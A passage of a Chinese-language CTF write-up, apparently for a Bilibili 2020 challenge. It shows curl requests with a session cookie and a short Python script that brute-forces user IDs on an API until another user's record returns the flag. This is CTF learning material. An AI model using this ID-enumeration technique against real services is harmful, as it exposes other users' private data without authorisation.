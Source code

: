```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/5\?uid\=2357****
{"code":"403","data":"","msg":""}
```

果不其然（

看看 Cookies 里的 `role`。跟上一道题一样。估计没有什么有价值的东西。但旁边的文件有意思了。

[![](image/2020-10-24-bilibili-ctf/2020-10-26_09-02-36.png)](image/2020-10-24-bilibili-ctf/2020-10-26_09-02-36.png)

这里恰好有一个 UID。那么把这个 UID 传过去。

```bash
$ curl -b 'session=(my cookie)' -X GET http://45.113.201.36/api/ctf/5\?uid\=100336889
{"code":"403","data":"","msg":""}
```

看来答案没这么直接。

在百思不得其解的时候 W 说了句：“它说是别人的秘密。要不用暴搜UID爆破一下吧？”那就爆破一下。

Python 代码很快就写出来了。

```python
import requests

url = 'http://45.113.201.36/api/ctf/5?uid='
cookies = dict(session='(my cookie)')

# 从 UID 100336889 开始，分别向前和向后搜索 1000 个 UID
for target in range(100335889, 100337889):
    res = requests.get(url + str(target), cookies=cookies)
    res.encoding = 'utf-8'
    print(str(target) + ': ' + res.text)
```

运行一下。很快，在 UID = 100336942 的时候 flag 出来了。（难怪叫别人的秘密……flag 在别的 UID 里……）

[![](image/2020-10-24-bilibili-ctf/2020-10-26_10-07-47.png)](image/2020-10-24-bilibili-ctf/2020-10-26_10-07-47.png)
